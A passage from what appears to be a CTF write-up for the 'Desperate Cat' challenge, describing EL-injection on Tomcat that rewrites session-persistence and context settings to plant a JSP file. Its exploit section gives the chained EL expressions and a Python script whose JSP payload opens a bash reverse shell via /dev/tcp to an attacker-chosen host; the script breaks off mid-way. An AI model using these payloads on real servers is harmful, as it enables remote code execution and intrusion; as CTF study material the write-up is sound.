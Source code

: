 ![image-20220125164240411](media/image-20220125164240411.png)

In this way, even if the original application fails with a 404 due to a failed context reload, other directories are still accessible. Just write the persistent storage file of the session to any other directory and getshell.

### Exploit

Finally, aggregate all the EL expressions:

```
${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
${sessionScope[param.b]=param.c}
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}
```

And that's Desperate Cat intended solution exploit:

```python
#!/usr/bin/env python3

import sys
import time
import requests

PROXIES = None

if __name__ == '__main__':
    target_url = sys.argv[1]    # e.g. http://127.0.0.1:8080/
    reverse_shell_host = sys.argv[2]
    reverse_shell_port = sys.argv[3]

    el_payload = r"""${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
${sessionScope[param.b]=param.c}
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}"""
    reverse_shell_jsp_payload = r"""<%Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "sh -i >& /dev/tcp/""" + reverse_shell_host + "/" + reverse_shell_port + r""" 0>&1"});%>"""
    r = requests.post(url=f'{target_url}/export',
                      data={
                          'dir': '',
                          'filename': 'a.jsp',
                          'content': el_payload,
                      },
                      proxies=PROXIES)
```